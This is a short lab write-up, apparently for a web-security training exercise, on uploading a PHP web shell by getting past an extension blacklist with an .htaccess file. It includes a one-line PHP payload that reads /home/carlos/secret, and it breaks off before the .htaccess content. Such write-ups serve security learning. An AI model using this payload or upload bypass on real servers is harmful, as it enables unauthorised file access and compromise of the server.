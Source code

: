 # Lab 04 - Web shell upload via extension blacklist bypass

## Vulnerable image upload function

1. Login and upload photo

2. View photo in new tab and look at GET request /files/avatars/images.jpeg

3. Create exploit.php file
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

4. Upload exploit.php instead of image

5. We need to create .htaccess file to change server configuration

- filename '.htaccess'
- Content-Type text/plain
- paylaod 
